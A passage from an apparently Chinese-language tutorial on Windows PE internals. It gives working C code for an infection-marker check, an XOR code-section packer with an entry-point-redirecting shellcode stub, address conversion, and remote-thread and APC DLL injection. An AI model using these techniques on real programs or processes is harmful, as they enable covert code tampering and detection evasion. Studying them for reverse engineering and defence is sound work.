#define VIRUSFLAGS 0xCCCC

// 向指定文件写入感染标志
BOOL WriteSig(DWORD dwAddr, DWORD dwSig, HANDLE hFile)
{
  DWORD dwNum = 0;
  SetFilePointer(hFile, dwAddr, 0, FILE_BEGIN);
  WriteFile(hFile, &dwSig, sizeof(DWORD), &dwNum, NULL);
  return TRUE;
}

// 检查文件是否被感染
BOOL CheckSig(DWORD dwAddr, DWORD dwSig, HANDLE hFile)
{
  DWORD dwSigNum = 0;
  DWORD dwNum = 0;
  SetFilePointer(hFile, dwAddr, 0, FILE_BEGIN);
  ReadFile(hFile, &dwSigNum, sizeof(DWORD), &dwNum, NULL);

  if (dwSigNum == dwSig)
    return TRUE;
  return FALSE;
}

int main(int argc, char* argv[])
{
  HANDLE hFile, hMap = NULL;
  LPVOID lpBase = NULL;

  hFile = CreateFileA("d://lyshark.exe", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
  hMap = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, 0, 0);
  lpBase = MapViewOfFile(hMap, FILE_MAP_READ | FILE_MAP_WRITE, 0, 0, 0);

  PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)lpBase;
  PIMAGE_NT_HEADERS pNtHeader = NULL;
  PIMAGE_SECTION_HEADER pSec = NULL;
  IMAGE_SECTION_HEADER imgSec = { 0 };

  if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
  {
    printf("[-] 文件非可执行文件 \n");
    return -1;
  }

  pNtHeader = (PIMAGE_NT_HEADERS)((BYTE*)lpBase + pDosHeader->e_lfanew);

  // 写入感染标志
  WriteSig(offsetof(IMAGE_DOS_HEADER, e_cblp), VIRUSFLAGS, hFile);

  // 返回真说明感染过
  if (CheckSig(offsetof(IMAGE_DOS_HEADER, e_cblp), VIRUSFLAGS, hFile))
  {
    printf("[+] 文件已被感染,无法重复感染. \n");
  }

  system("pause");
  return 0;
}
```

由于`e_cblp`是第二个字段，所以在填充后我们打开`WinHex`就可以看到变化，如下图所示；



### 2.13 实现代码段加密

代码加密功能的实现原理，首先通过创建一个新的`.hack`区段，并对该区段进行初始化，接着我们向此区段内写入一段具有动态解密功能的`ShellCode`汇编指令集，并将程序入口地址修正为`ShellCode`地址位置处，当解密功能被运行后则可释放加密的`.text`节，此时再通过一个`JMP`指令跳转到原始`OEP`位置，则可继续执行解密后的区段，如下是一段异或解密功能实现，用于实现循环`0x88`异或解密代码功能；

```asm
00408001  MOV EAX, main.00401000        (代码段首地址)
00408006  XOR BYTE PTR DS : [EAX], 88   (与0x88异或)
00408009  INC EAX
0040800A  CMP EAX, main.00404B46        (代码段结束位置)
0040800F  JNZ SHORT main.00408006       (写入原始OEP)
00408011  POPAD
00408012  MOV EAX, main.00401041        (写入新OEP)
00408017  JMP EAX
```

有了上述加密流程，则下一步就是对内部的变量进行填充，我们可以提取出这些汇编指令的机器码并存储到`Code[]`数组内，通过对数组中的特定位置进行替换来完善跳转功能，此处我们需要提取如下几个位置的特征字段；

 - 00408001 数组下标第`2`位替换为`ImageBase + pSection->VirtualAddress`
 - 0040800A 数组下标第`11`位替换为`ImageBase + pSection->VirtualAddress + pSection->Misc.VirtualSize`
 - 0040800F 数组下标第`19`位替换为`ImageBase + BaseRVA`
 - 00408012 原始`OEP`位置替换为`pSection->VirtualAddress`

根据上述流程我们可以编写一个`AddPacking`函数，该函数通过传入一个待加密程序路径，则可将一段解密代码`Code[]`写入到程序节表中的最后一个节`.hack`所在内存空间，并动态修正当前入口地址为`.hack`节的首地址，最终执行解密后自动跳转回原始OEP位置执行功能，如下代码所示；

```c
// 对文件执行加壳操作
void AddPacking(LPSTR szFileName)
{
  // 打开文件
  HANDLE hFile = CreateFileA(szFileName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ,
    NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

  // 创建文件映射
  HANDLE hMap = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, 0, 0);
  HANDLE lpBase = MapViewOfFile(hMap, FILE_MAP_READ | FILE_SHARE_WRITE, 0, 0, 0);

  // 找到PE文件头
  PIMAGE_DOS_HEADER DosHdr = (PIMAGE_DOS_HEADER)lpBase;
  PIMAGE_NT_HEADERS NtHdr = (PIMAGE_NT_HEADERS)((DWORD)lpBase + DosHdr->e_lfanew);

  DWORD ImageBase = NtHdr->OptionalHeader.ImageBase;
  DWORD BaseRVA = NtHdr->OptionalHeader.AddressOfEntryPoint;
  PIMAGE_FILE_HEADER FileHdr = &NtHdr->FileHeader;
  PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(NtHdr);

  // 首先得到最后一个节的指针，然后找到里面的虚拟偏移值，填入到程序OEP位置即可。
  DWORD SectionNum = FileHdr->NumberOfSections;

  char Code[] =
  {
    "\x60"
    "\xb8\x00\x00\x00\x00"
    "\x80\x30\x88"
    "\x40"
    "\x3d\xff\x4f\x40\x00"
    "\x75\xf5"
    "\x61"
    "\xb8\x00\x00\x00\x00"
    "\xff\xe0"
  };

  DWORD dwWrite = 0;

  // 写入代码节开始位置
  *(DWORD *)&Code[2] = ImageBase + pSection->VirtualAddress;
  printf("[+] 写入代码节开始位置: 0x%08X \n", ImageBase + pSection->VirtualAddress);

  // 写入代码节终止位置
  *(DWORD *)&Code[11] = ImageBase + pSection->VirtualAddress + pSection->Misc.VirtualSize;
  printf("[+] 写入代码节结束位置:0x%08X \n", ImageBase + pSection->VirtualAddress + pSection->Misc.VirtualSize);

  // 写入原来的的OEP位置
  *(DWORD *)&Code[19] = ImageBase + BaseRVA;
  printf("[+] 写入原始OEP 0x%08X \n", ImageBase + BaseRVA);

  // 拿到最后一个节的文件偏移
  pSection = pSection + (SectionNum - 1);
  printf("[+] 得到最后一个节的实际地址: 0x%08X \n", pSection->PointerToRawData);

  // 设置指针到最后一个节文件偏移位置
  SetFilePointer(hFile, pSection->PointerToRawData, 0, FILE_BEGIN);
  WriteFile(hFile, (LPVOID)Code, sizeof(Code), &dwWrite, NULL);
  FlushViewOfFile(lpBase, 0);

  // 修正当前入口点地址
  printf("[+] 修正入口点地址为: 0x%08X \n", pSection->VirtualAddress);
  *(DWORD *)&NtHdr->OptionalHeader.AddressOfEntryPoint = pSection->VirtualAddress;
  UnmapViewOfFile(lpBase);
}
```

读者可自行运行上述代码片段，传入`d://lyshark.exe`对该程序中的`.text`节进行解密，运行后读者可打开`x64dbg`调试器，观察入口地址处的变化，此时入口地址已经跳转到`.hack`节内，此节中的汇编指令则用于对`.text`代码节进行解密操作，当解密结束后则会跳转到原始地址`0x45C865`位置处，如下图所示；



当加密功能写入后，则接下来就可以对`.text`代码节进行加密了，加密的实现也非常容易，如下函数，通过定位到第一个节，并通过`ReadFile`函数将这个节读入内存，通过循环对这个区域进行加密，最后调用`WriteFile`函数再将加密后的数据回写到代码节，此时加密功能就实现了，如下所示；

```c
// 将特定的节进行加密,此处只加密Text节
void EncrySection(LPSTR szFileName, DWORD Key)
{
  // 打开文件
  HANDLE hFile = CreateFileA(szFileName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ,
    NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

  // 创建文件映射
  HANDLE hMap = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, 0, 0);
  HANDLE lpBase = MapViewOfFile(hMap, FILE_MAP_READ | FILE_SHARE_WRITE, 0, 0, 0);

  // 定位PE文件节
  PIMAGE_DOS_HEADER DosHdr = (PIMAGE_DOS_HEADER)lpBase;
  PIMAGE_NT_HEADERS NtHdr = (PIMAGE_NT_HEADERS)((DWORD)lpBase + DosHdr->e_lfanew);
  PIMAGE_FILE_HEADER FileHdr = &NtHdr->FileHeader;
  PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(NtHdr);
  
  printf("[-] 节虚拟地址: 0x%08X 虚拟大小: 0x%08X\n", pSection->VirtualAddress, pSection->Misc.VirtualSize);
  printf("[-] 读入FOA基地址: 0x%08X 节表长度: 0x%08X \n", pSection->PointerToRawData, pSection->SizeOfRawData);
  printf("[-] 已对 %s 节 --> XOR加密/解密 --> XOR密钥: %d \n\n", pSection->Name, Key);

  // 分配内存空间
  DWORD dwRead = 0;
  PBYTE pByte = (PBYTE)malloc(pSection->SizeOfRawData);

  SetFilePointer(hFile, pSection->PointerToRawData, 0, FILE_BEGIN);
  memset(pByte, 0, pSection->SizeOfRawData);
  ReadFile(hFile, pByte, pSection->SizeOfRawData, &dwRead, NULL);

  // 对代码节加密
  for (int x = 0; x < pSection->SizeOfRawData; x++)
  {
    pByte[x] ^= Key;
  }

  // 写出加密后的数据
  SetFilePointer(hFile, pSection->PointerToRawData, 0, FILE_BEGIN);
  WriteFile(hFile, pByte, pSection->SizeOfRawData, 0, FILE_BEGIN);
  pSection->Characteristics = 0xE0000020;

  free(pByte);
  FlushViewOfFile(lpBase, 0);
  UnmapViewOfFile(lpBase);
}
```

读者通过`AddPacking`函数对文件加壳后，接着就可以调用`EncrySection`函数对目标程序进行异或处理，此处分别传入`d://lyshark.exe`路径，以及一个加密密钥`0x88`，等待加密结束即可，此时运行程序即可实现对代码段的解密运行，这样也就起到了保护了代码段的作用，如下是解密之前的代码段；



当解密后，代码段将会被展开，并输出如下图所示的样子，此时程序即可被正确执行；



### 2.14 地址之间的转换

在可执行文件PE文件结构中，通常我们需要用到地址转换相关知识，PE文件针对地址的规范有三种，其中就包括了`VA`，`RVA`，`FOA`三种，这三种该地址之间的灵活转换也是非常有用的，本节将介绍这些地址范围如何通过编程的方式实现转换。

如下是三种格式的异同点：

 - VA（Virtual Address，虚拟地址）：它是在进程的虚拟地址空间中的地址，用于在运行时访问内存中的数据和代码。VA是相对于进程基址的偏移量。在不同的进程中，相同的VA可能映射到不同的物理地址。
 - RVA（Relative Virtual Address，相对虚拟地址）：它是相对于模块基址（Module Base Address）的偏移量，用于定位模块内部的数据和代码。RVA是相对于模块基址的偏移量，通过将模块基址和RVA相加，可以计算出相应的VA。
 - FOA（File Offset Address，文件偏移地址）：它是相对于文件起始位置的偏移量，用于定位可执行文件中的数据和代码在文件中的位置。通过将文件偏移地址和节表中的指定节的起始位置相加，可以计算出相应的FOA。

**VA虚拟地址转换为FOA文件偏移**

VA地址代指的是程序加载到内存后的内存地址，而`FOA`地址则代表文件内的物理地址，通过编写`VA_To_FOA`则可实现将一个虚拟地址转换为文件偏移地址，该函数的实现方式，首先得到`ImageBase`镜像基地址，并得到`NumberOfSections`节数量，有了该数量以后直接循环，通过判断语句将节限定在一个区间内该区间`dwVA >= Section_Start && dwVA <= Section_Ends`，当找到后，首先通过`VA-ImageBase`得到当前的`RVA`地址，接着通过该地址减去`VirtualAddress`并加上`PointerToRawData`文件指针，即可获取到文件内的偏移。

```C
#include <iostream>
#include <Windows.h>
#include <ImageHlp.h>

#pragma comment(lib,"Imagehlp.lib")

// 读取NT头
PIMAGE_NT_HEADERS GetNtHeader(PVOID ImageBase)
{
  PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)ImageBase;

  if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
  {
    return NULL;
  }

  PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)ImageBase + pDosHeader->e_lfanew);
  if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE)
  {
    return NULL;
  }

  return pNtHeaders;
}

// 读取PE结构的封装
HANDLE OpenPeFile(LPTSTR FileName)
{
  HANDLE hFile, hMapFile, lpMapAddress = NULL;
  DWORD dwFileSize = 0;

  // CreateFile 既可以创建文件，也可以打开文件，这里则是打开文件的含义
  hFile = CreateFile(FileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE)
  {
    return 0;
  }

  // 获取到文件大小
  dwFileSize = GetFileSize(hFile, NULL);

  // 创建文件的内存映像
  hMapFile = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, dwFileSize, NULL);
  if (hMapFile == NULL)
  {
    return 0;
  }

  // 读取映射中的内存并返回一个句柄
  lpMapAddress = MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, dwFileSize);
  if (lpMapAddress != NULL)
  {
    return lpMapAddress;
  }

  return 0;
}

// 将 VA(虚拟地址) --> 转换为 FOA(文件偏移)
DWORD VA_To_FOA(HANDLE ImageBase, DWORD dwVA)
{
  PIMAGE_NT_HEADERS pNtHead = NULL;
  PIMAGE_FILE_HEADER pFileHead = NULL;
  PIMAGE_SECTION_HEADER pSection = NULL;
  DWORD NumberOfSectinsCount = 0;
  DWORD dwImageBase = 0;

  pNtHead = GetNtHeader(ImageBase);
  pSection = IMAGE_FIRST_SECTION(pNtHead);

  dwImageBase = pNtHead->OptionalHeader.ImageBase;
  NumberOfSectinsCount = pNtHead->FileHeader.NumberOfSections;
  for (int each = 0; each < NumberOfSectinsCount; each++)
  {
    // 获取节的开始地址与结束地址
    DWORD Section_Start = dwImageBase + pSection[each].VirtualAddress;
    DWORD Section_Ends = dwImageBase + pSection[each].VirtualAddress + pSection[each].Misc.VirtualSize;
    // 判断当前的VA地址落在了那个节上
    if (dwVA >= Section_Start && dwVA <= Section_Ends)
    {
      DWORD RVA = dwVA - pNtHead->OptionalHeader.ImageBase;                                    // 计算RVA
      DWORD FOA = pSection[each].PointerToRawData + (RVA - pSection[each].VirtualAddress);     // 计算FOA
      return FOA;
    }
  }
  return -1;
}

int main(int argc, char * argv[])
{
  HANDLE lpMapAddress = NULL;

  // 打开PE文件
  lpMapAddress = OpenPeFile(L"d://lyshark.exe");

  // 转换
  DWORD FOA = VA_To_FOA(lpMapAddress, 0x401000);
  printf("VA --> FOA 结果为: %x \n", FOA);

  system("pause");
  return 0;
}
```

上述代码运行后即可获取到内存地址`0x401000`对应的文件地址为`0x1000`，读者可自行打开`WinHex`验证是否相等，如下图所示；



**RVA相对地址转换为FOA文件偏移**

所谓的相对地址则是内存地址减去基址所获得的地址，该地址的计算同样可以使用代码实现，如下`RVA_To_FOA`函数可用于将一个相对地址转换为文件偏移，如果内存`VA`地址是`0x401000`而基址是`0x400000`那么相对地址就是`0x1000`，将相对地址转换为`FOA`文件偏移，首相要将相对地址加上基址，我们通过相对地址减去`PointerToRawData`数据指针即可获取到文件偏移。

```c
#include <iostream>
#include <Windows.h>
#include <ImageHlp.h>

#pragma comment(lib,"Imagehlp.lib")

// 读取NT头
PIMAGE_NT_HEADERS GetNtHeader(PVOID ImageBase)
{
  PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)ImageBase;

  if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
  {
    return NULL;
  }

  PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)ImageBase + pDosHeader->e_lfanew);
  if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE)
  {
    return NULL;
  }

  return pNtHeaders;
}

// 读取PE结构的封装
HANDLE OpenPeFile(LPTSTR FileName)
{
  HANDLE hFile, hMapFile, lpMapAddress = NULL;
  DWORD dwFileSize = 0;

  // CreateFile 既可以创建文件，也可以打开文件，这里则是打开文件的含义
  hFile = CreateFile(FileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE)
  {
    return 0;
  }

  // 获取到文件大小
  dwFileSize = GetFileSize(hFile, NULL);

  // 创建文件的内存映像
  hMapFile = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, dwFileSize, NULL);
  if (hMapFile == NULL)
  {
    return 0;
  }

  // 读取映射中的内存并返回一个句柄
  lpMapAddress = MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, dwFileSize);
  if (lpMapAddress != NULL)
  {
    return lpMapAddress;
  }

  return 0;
}

// 将 RVA(虚拟地址) --> 转换为 FOA(文件偏移)
DWORD RVA_To_FOA(HANDLE ImageBase, DWORD dwRVA)
{
  PIMAGE_NT_HEADERS pNtHead = NULL;
  PIMAGE_FILE_HEADER pFileHead = NULL;
  PIMAGE_SECTION_HEADER pSection = NULL;
  DWORD NumberOfSectinsCount = 0;
  DWORD dwImageBase = 0;

  pNtHead = GetNtHeader(ImageBase);
  pSection = IMAGE_FIRST_SECTION(pNtHead);

  dwImageBase = pNtHead->OptionalHeader.ImageBase;
  NumberOfSectinsCount = pNtHead->FileHeader.NumberOfSections;
  for (int each = 0; each < NumberOfSectinsCount; each++)
  {
    DWORD Section_Start = pSection[each].VirtualAddress;                                  // 计算RVA开始位置
    DWORD Section_Ends = pSection[each].VirtualAddress + pSection[each].Misc.VirtualSize; // 计算RVA结束位置

    if (dwRVA >= Section_Start && dwRVA <= Section_Ends)
    {
      DWORD VA = pNtHead->OptionalHeader.ImageBase + dwRVA;                                  // 得到VA地址
      DWORD FOA = pSection[each].PointerToRawData + (dwRVA - pSection[each].VirtualAddress); // 得到FOA
      return FOA;
    }
  }
  return -1;
}

int main(int argc, char * argv[])
{
  // 打开文件
  HANDLE lpMapAddress = NULL;
  lpMapAddress = OpenPeFile(L"d://lyshark.exe");

  // 计算地址
  DWORD FOA = RVA_To_FOA(lpMapAddress, 0x1000);
  printf("RVA --> FOA 结果为: %x \n", FOA);

  system("pause");
  return 0;
}
```

我们还是以上述功能为例，计算相对地址`0x1000`的文件偏移，则可以得到`0x1000`的文件偏移值，如下图所示；



**FOA文件偏移转换为VA虚拟地址**

将文件内的偏移地址`FOA`转换为内存虚拟地址，在转换时首先通过`VirtualAddress`节虚拟地址加上，文件偏移地址减去`PointerToRawData`数据域指针，得到相对地址，再次加上`ImageBase`基地址即可获取到实际虚拟地址。

```C
#include <iostream>
#include <Windows.h>
#include <ImageHlp.h>

#pragma comment(lib,"Imagehlp.lib")

// 读取NT头
PIMAGE_NT_HEADERS GetNtHeader(PVOID ImageBase)
{
  PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)ImageBase;

  if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
  {
    return NULL;
  }

  PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)ImageBase + pDosHeader->e_lfanew);
  if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE)
  {
    return NULL;
  }

  return pNtHeaders;
}

// 读取PE结构的封装
HANDLE OpenPeFile(LPTSTR FileName)
{
  HANDLE hFile, hMapFile, lpMapAddress = NULL;
  DWORD dwFileSize = 0;

  // CreateFile 既可以创建文件，也可以打开文件，这里则是打开文件的含义
  hFile = CreateFile(FileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE)
  {
    return 0;
  }

  // 获取到文件大小
  dwFileSize = GetFileSize(hFile, NULL);

  // 创建文件的内存映像
  hMapFile = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, dwFileSize, NULL);
  if (hMapFile == NULL)
  {
    return 0;
  }

  // 读取映射中的内存并返回一个句柄
  lpMapAddress = MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, dwFileSize);
  if (lpMapAddress != NULL)
  {
    return lpMapAddress;
  }

  return 0;
}

// 将 FOA(文件偏移) --> 转换为 VA(虚拟地址)
DWORD FOA_To_VA(HANDLE ImageBase, DWORD dwFOA)
{
  PIMAGE_NT_HEADERS pNtHead = NULL;
  PIMAGE_FILE_HEADER pFileHead = NULL;
  PIMAGE_SECTION_HEADER pSection = NULL;
  DWORD NumberOfSectinsCount = 0;
  DWORD dwImageBase = 0;

  pNtHead = GetNtHeader(ImageBase);
  pSection = IMAGE_FIRST_SECTION(pNtHead);

  dwImageBase = pNtHead->OptionalHeader.ImageBase;
  NumberOfSectinsCount = pNtHead->FileHeader.NumberOfSections;
  for (int each = 0; each < NumberOfSectinsCount; each++)
  {
    DWORD PointerRawStart = pSection[each].PointerToRawData;                                // 文件偏移开始位置
    DWORD PointerRawEnds = pSection[each].PointerToRawData + pSection[each].SizeOfRawData;  // 文件偏移结束位置

    if (dwFOA >= PointerRawStart && dwFOA <= PointerRawEnds)
    {
      DWORD RVA = pSection[each].VirtualAddress + (dwFOA - pSection[each].PointerToRawData);  // 计算出RVA
      DWORD VA = RVA + pNtHead->OptionalHeader.ImageBase;                                     // 计算出VA
      return VA;
    }
  }
  return -1;
}

int main(int argc, char * argv[])
{
  // 打开文件
  HANDLE lpMapAddress = NULL;
  lpMapAddress = OpenPeFile(L"d://lyshark.exe");

  // 转换
  DWORD VA = FOA_To_VA(lpMapAddress, 0x1000);
  printf("FOA --> VA 结果为: 0x%X \n", VA);

  system("pause");
  return 0;
}
```

运行后即可将文件偏移`0x1000`转换为内存虚拟地址`0x401000`如下图所示；



## 第三篇：动态链接库注入技术

动态链接库注入技术是一种特殊的技术，它允许在运行的进程中注入DLL动态链接库，从而改变目标进程的行为。这种技术通常用于软件调试、扩展性和测试。本章内容中将具体介绍如何使用线程注入技术，并实现常用的。远程线程注入，全局消息钩子注入，APC应用层异步注入，ZwCreateThreadEx强力注入，等常用的注入方法，让读者可以更好的理解线程注入的实现细节。

### 3.1 常规远程线程注入

DLL注入的实现方式有许多，典型的实现方式为远程线程注入，该注入方式的注入原理是利用了`Windows`系统中提供的`CreateRemoteThread()`这个API函数,该函数第四个参数是准备运行的线程，我们将`LoadLibrary()`函数填入其中，这样就可以执行远程进程中的`LoadLibrary()`函数，进而将我们自己准备的DLL加载到远程进程空间中执行，DLL在被装载后则会自动执行初始化部分。

远程线程注入的实现可以总结为如下流程；

 - 1.OpenProcess 打开进程获取进程句柄
 - 2.VirtualAllocEx 在目标进程申请一块内存
 - 3.WriteProcessMemory 将注入DLL路径写出到内存中
 - 4.GetProcAddress 获得LoadLibraryA函数的内存地址
 - 5.CreateRemoteThread 创建远线程,实现DLL注入

远程注入的核心实现原理是利用了`CreateRemoteThread`函数，CreateRemoteThread是Windows系统的一个函数，能够在指定的进程上下文中创建一个线程。该函数可以使一个进程在另一个进程中执行任意代码，并返回新线程的句柄。在DLL注入中，我们可以使用该函数在目标进程的上下文中创建一个新线程，从而使我们的DLL代码被加载和运行。该函数的声明如下所示；
```c
HANDLE WINAPI CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

参数说明：

 - hProcess: 目标进程的句柄。
 - lpThreadAttributes: 线程安全描述符，通常为NULL。
 - dwStackSize: 新线程的初始化栈大小，通常为0。
 - lpStartAddress: 线程入口点，指向要在新线程中执行的代码。
 - lpParameter: 传递给线程入口点的参数。
 - dwCreationFlags: 线程创建标志，通常为0。
 - lpThreadId: 如果非NULL，返回新线程的ID号。

在DLL注入中，我们可以使用它来在指定的进程上下文中执行我们的DLL代码，使其被加载和运行。这段代码的实现很容易理解，我们以注入32为DLL为例，代码如下所示；
```c
#include <windows.h>
#include <iostream>
#include <TlHelp32.h>
#include <tchar.h>

// 传入进程名称返回该进程PID
DWORD FindProcessID(LPCTSTR szProcessName)
{
    DWORD dwPID = 0xFFFFFFFF;
    HANDLE hSnapShot = INVALID_HANDLE_VALUE;
    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);
    hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, NULL);
    Process32First(hSnapShot, &pe);
    do
    {
        if (!_tcsicmp(szProcessName, (LPCTSTR)pe.szExeFile))
        {
            dwPID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapShot, &pe));
    CloseHandle(hSnapShot);
    return dwPID;
}

// 远程线程注入
BOOL CreateRemoteThreadInjectDll(DWORD Pid, char* DllName)
{
    HANDLE hProcess = NULL;
    SIZE_T dwSize = 0;
    LPVOID pDllAddr = NULL;
    FARPROC pFuncProcAddr = NULL;

    // 打开注入进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Pid);
    if (NULL == hProcess)
    {
        return FALSE;
    }

    // 得到注入文件的完整路径
    dwSize = sizeof(char) + lstrlen(DllName);

    // 在对端申请一块内存
    pDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (NULL == pDllAddr)
    {
        return FALSE;
    }

    // 将注入文件名写入到内存中
    if (FALSE == WriteProcessMemory(hProcess, pDllAddr, DllName, dwSize, NULL))
    {
        return FALSE;
    }

    // 得到LoadLibraryA()函数的地址
    pFuncProcAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (NULL == pFuncProcAddr)
    {
        return FALSE;
    }

    // 启动线程注入
    HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, NULL);
    if (NULL == hRemoteThread)
    {
        return FALSE;
    }

    // 关闭句柄
    CloseHandle(hProcess);
    return TRUE;
}

int main(int argc, char *argv[])
{
    DWORD pid = FindProcessID("lyshark.exe");
    std::cout << "进程PID: " << pid << std::endl;

    bool flag = CreateRemoteThreadInjectDll(pid, (char *)"d://hook.dll");
    std::cout << "注入状态: " << flag << std::endl;

    return 0;
}
```

### 3.2 远程APC异步注入

APC（Asynchronous Procedure Call）异步过程调用是一种`Windows`操作系统的核心机制，它允许在进程上下文中执行用户定义的函数，而无需创建线程或等待OS执行完成。该机制适用于一些频繁的、短暂的或非常细微的操作，例如改变线程优先级或通知线程处理任务。在`APC机制`中，当某些事件发生时（例如文件IO，网络IO或定时器触发），这些事件将被操作系统添加到一个`APC队列`中，该队列绑定到执行线程。在下一次发生`ALERTABLE`的事件时（例如调用SleepEx或SignalObjectAndWait时），OS将弹出`APC函数`并在执行线程上下文中调用该函数，并在执行完毕后恢复线程执行。

APC机制与DLL注入的关系在于，可以使用APC机制将某些代码注入到另一个进程中，并由该进程执行。读者可以使用`NtQueueApcThread`或`QueueUserAPC`等函数将用户定义的函数添加到目标进程中的`APC队列`中，目标线程将在调用`SleepEx`或`SignalObjectAndWait`等函数时执行注入函数。但读者需要注意，注入函数必须是一个简短的、没有长时间阻塞的代码块，通常会加载DLL或者在目标线程中打开其他进程。

QueueUserAPC 函数允许将一个用户定义的函数添加到指定线程对应的APC队列中。该函数中的APC指异步过程调用，是指通过消息的方式将一段代码投递给线程去执行的一种机制，常用于处理异步操作，该函数的函数原型如下：
```c
DWORD WINAPI QueueUserAPC(
  PAPCFUNC  pfnAPC,
  HANDLE    hThread,
  ULONG_PTR dwData
);
```

参数说明如下：

 - pfnAPC: 一个指向线程函数的函数指针，在本函数被执行时调用。
 - hThread: 目标线程的句柄。
 - dwData: 传递给线程函数的参数。

当调用`QueueUserAPC`函数时，该函数将在目标线程的`APC队列`中添加一个`APC`入口，APC的入口点为`pfnAPC`。当目标线程处于`alertable`状态时，即调用了如`SleepEx`等同于处理`APCs`的等待函数时，系统会将`APC`从队列中弹出，并调用pfnAPC。在DLL注入中，可以使用`QueueUserAPC`函数向目标进程内的线程的APC队列中插入一个我们定义的函数的指针，使该函数在目标线程执行时运行，从而实现DLL注入的目的。

APC一部注入原理可以总结为如下几个步骤，每个线程在可被唤醒时在其APC链中的函数将有机会执行被执行，每一个线程都具有一个APC链，那么只要在APC链中添加一个APC，就可以完成我们所需要的DLL注入的功能；

 - 1.WriteProcessMemory 将需要加载的DLL的完整路径写入目标进程空间
 - 2.获得LoadLibraryA函数的地址,当然也可以是LoadLibraryW函数的地址
 - 3.枚举目标进程中的所有线程,为每个线程添加一个APC函数,这样增加了注入成功的机会.

利用当线程被唤醒时APC中的注册函数会被执行的机制，并以此去执行我们的DLL加载代码，进而完成DLL注入的目的，通过APC注入的流程步骤大致如下；

 - 1.当进程里某个线程执行到`SleepEx()`或者`WaitForSingleObjectEx()`时，系统就会产生一个软中断
 - 2.当线程再次被唤醒时，此线程会首先执行APC队列中的被注册的函数
 - 3.利用`QueueUserAPC()`可以在软中断时向线程的APC队列插入一个函数指针，此处插入`Loadlibrary()`
 - 4.当插入函数被执行时则会加载Loadlibrary并将其指向的DLL模块插入到进程内

但读者需要注意一点，不论如何目标程序必须有执行`SleepEx()`或者`WaitForSingleObjectEx()`否则DLL不会加载，读者可自行做实验测试是否可以注入成功；

```c
#include <windows.h>
#include <iostream>
#include <TlHelp32.h>
#include <tchar.h>

// 传入进程名称返回该进程PID
DWORD FindProcessID(LPCTSTR szProcessName)
{
    DWORD dwPID = 0xFFFFFFFF;
    HANDLE hSnapShot = INVALID_HANDLE_VALUE;
    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);
    hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, NULL);
    Process32First(hSnapShot, &pe);
    do
    {
        if (!_tcsicmp(szProcessName, (LPCTSTR)pe.szExeFile))
        {
            dwPID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapShot, &pe));
    CloseHandle(hSnapShot);
    return dwPID;
}

// APC注入
BOOL ApcInjectDll(DWORD dwPid, char* szDllName)
{
    // 得到文件完整路径长度
    int nDllLen = lstrlen(szDllName) + sizeof(char);

    // 打开目标进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    if (hProcess == NULL)
    {
        return FALSE;
    }

    // 在对端开辟内存空间
